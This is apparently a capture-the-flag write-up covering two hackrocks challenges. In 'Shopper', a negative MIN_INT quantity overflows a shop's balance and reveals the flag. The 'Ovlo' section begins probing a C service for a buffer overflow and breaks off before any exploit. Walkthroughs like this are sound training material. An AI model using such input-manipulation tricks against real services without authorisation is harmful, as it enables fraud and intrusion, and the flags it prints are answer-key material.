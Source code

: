 ## Shopper

>Connect to the service, called **shopper**, and try to exploit it:
>
>**challenges.hackrocks.com:42421**
>**NOTE**: No other ports are part of this challenge.

Finally, a shell/service to play with! Connecting using `telnet`:
```bash
❯ telnet challenges.hackrocks.com 42421
Trying 95.216.99.248...
Connected to challenges.hackrocks.com.
Escape character is '^]'.
1. buy chocolate $1
2. buy token $100
your money $10
choose: 
```

So we have a system that lets us buy chocolates for 1$! So messing around with the input must give us something. Attempting to simply crash the service with large values or strings did not give it away immediatilly.

Once again, `mluis` suggested using `MAX` values, e.g. `MAX_INT` or `MIN_INT` given the inputs are always numeric. Doing that trick, giving the `MIN_INT` as input to option `1` (`-2147483648`), we can have MAX MONEY:
```bash
1. buy chocolate $1
2. buy token $100
your money $10
choose: 1
how much> -2147483648
1. buy chocolate $1
2. buy token $100
your money $2147483658
choose: 2
the token is: flag{n3gativ3_input_and_m0re_money}
```

And we get the flag: `flag{n3gativ3_input_and_m0re_money}`.

## Ovlo

>You will find the service at the following host:
>**challenges.hackrocks.com:37881**
>
>Ready? Then don't waste your time and go ahead!  
>**NOTE**: No other ports are part of this challenge.

This challenge, once again, gives us a shell to play with, as well as the C source code of the service running in port 37881.

So, connecting to it:
```bash
❯ telnet challenges.hackrocks.com 37881
Trying 95.216.99.248...
Connected to challenges.hackrocks.com.
Escape character is '^]'.
vent anything to me
```
So we are given an "infinite" input box, `vent anything to me`. Without even looking at the sauce, we can enter a lot of `a` to see what happens!
```bash
vent anything to me
```